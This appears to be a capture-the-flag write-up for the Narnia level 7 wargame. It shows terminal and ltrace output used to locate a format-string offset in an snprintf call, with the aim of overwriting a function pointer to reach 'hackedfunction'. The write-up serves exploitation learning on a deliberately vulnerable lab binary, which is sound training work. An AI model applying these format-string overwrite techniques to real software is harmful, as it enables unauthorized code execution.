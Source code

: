 This level is very similar to level 5. We need to use `snprintf` to change the value of `ptrf` to the address of `hackedfunction` instead of `goodfunction`.

```
narnia7@melinda:/narnia$ ./narnia7 AAAAAAA
goodfunction() = 0x804866f
hackedfunction() = 0x8048695

before : ptrf() = 0x804866f (0xffffd69c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```

Since the only differnce between the addresses of `hackedfunction` and `goodfunction` is in the LSB, we can replace only it instead of overwriting the entire address. As before, we use `ltrace` to get the parameter number of our format string:

```
narnia7@melinda:/narnia$ ltrace -s 500 ./narnia7 AAAA%5\$x
__libc_start_main(0x804861d, 2, -10284, 0x80486d0, 0x8048740 <unfinished ...>
printf("goodfunction() = %p\n", 0x804866fgoodfunction() = 0x804866f
)                                                                                       = 27
printf("hackedfunction() = %p\n\n", 0x8048695hackedfunction() = 0x8048695

)                                                                                   = 30
printf("before : ptrf() = %p (%p)\n", 0x804866f, 0xffffd68cbefore : ptrf() = 0x804866f (0xffffd68c)
)                                                                     = 41
puts("I guess you want to come to the hackedfunction..."I guess you want to come to the hackedfunction...
)                                                                        = 50
sleep(2)                                                                                                                         = 0
snprintf("AAAA804866f", 128, "AAAA%5$x", 0xf7fd32e8)                                                                             = 11
puts("Welcome to the goodfunction, but i said the Hackedfunction.."Welcome to the goodfunction, but i said the Hackedfunction..
)                                                             = 61
fflush(0xf7fcfa20)                                                                                                               = 0
exit(0 <unfinished ...>
+++ exited (status 0) +++
narnia7@melinda:/narnia$ ltrace -s 500 ./narnia7 AAAA%6\$x
__libc_start_main(0x804861d, 2, -10284, 0x80486d0, 0x8048740 <unfinished ...>
printf("goodfunction() = %p\n", 0x804866fgoodfunction() = 0x804866f
)                                                                                       = 27
printf("hackedfunction() = %p\n\n", 0x8048695hackedfunction() = 0x8048695

)                                                                                   = 30
printf("before : ptrf() = %p (%p)\n", 0x804866f, 0xffffd68cbefore : ptrf() = 0x804866f (0xffffd68c)
)                                                                     = 41
puts("I guess you want to come to the hackedfunction..."I guess you want to come to the hackedfunction...
)                                                                        = 50
sleep(2)                                                                                                                         = 0
snprintf("AAAA41414141", 128, "AAAA%6$x", 0xf7fd32e8)                                                                            = 12
puts("Welcome to the goodfunction, but i said the Hackedfunction.."Welcome to the goodfunction, but i said the Hackedfunction..
)                                                             = 61
fflush(0xf7fcfa20)                                                                                                               = 0
exit(0 <unfinished ...>
+++ exited (status 0) +++
```
